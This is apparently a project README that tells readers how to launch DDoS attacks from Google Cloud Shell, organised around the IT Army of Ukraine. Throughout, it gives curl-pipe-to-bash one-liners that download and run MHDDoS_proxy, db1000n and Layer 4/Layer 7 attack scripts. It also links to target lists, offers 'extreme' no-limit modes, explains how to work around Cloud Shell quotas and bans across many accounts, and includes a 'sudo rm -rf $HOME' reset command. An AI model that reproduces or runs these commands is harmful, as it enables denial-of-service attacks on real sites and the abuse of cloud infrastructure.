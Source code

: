 ## [DDoS whith Google Cloud Shell](https://sites.google.com/view/operationrussia/googleshell)
#### Scripts for durable cloudshell session. Test!
#
### Use https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
### from PC and smartphones (*all devices with browser*;)
#
#### Browser mode (*suitable for use 1 to 20-30 accounts from one PC, if more - [here](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/tree/main/GShellSDK#readme)*)
:exclamation:• **It is recommended to use 1 terminal per account**.    
:exclamation:• **GShell sessions are capped at 12 hours. You can start a new session immediately after terminate**    
:exclamation:• Please note that **Weekly usage quotas, 1 account - 50 hours in normal mode and up to 50 hours in ephemeral mode** (*until the quota expires in the default mode - turn on the ephemeral mode (set - "Always") and get up to 50 hours of use during the current week*)    
:exclamation:• In [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) you can disable usage statistics in settings.    
• **To restore Cloud Shell** - remove all files from your home directory, command: `sudo rm -rf $HOME`, after - in the Cloud Shell menu, click the three dots menu icon, then click "Restart" *(A new VM will be provisioned and the home directory will be restored to its default state)*
#
### Stable sessions (*90%*)
:white_check_mark:**Command to install and run MHDDoS_proxy ([Layer7](https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst)):**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:white_check_mark: **Command to install and run db1000n:** 
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
### Tests / elaborations / experiments. 
**Unstable sessions; are terminated** (need constantly checked)      
  
:grey_question:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash    
```
:grey_question:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:***--itarmy*:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**Split terminal (Layer7+Layer4):**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### EXTREME MODE:zap:NoLimits (mhddos_proxy commands without parameters)
 :exclamation: **Attacks are powerful but short + high probability of getting banned** (*the ban is usually temporary and only applies to access to GShell*)    
  
:zap:***--itarmy*:**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/itarmyX.sh | bash
```
:zap:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/tcpX.sh | bash
```
:zap:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/ALLx.sh | bash
```
#
#
#### Target lists
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/AllTargets.lst     
https://gist.github.com/ddosukraine2022/f739250dba308a7a2215617b17114be9/raw/mhdos_targets_url_v2.txt
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
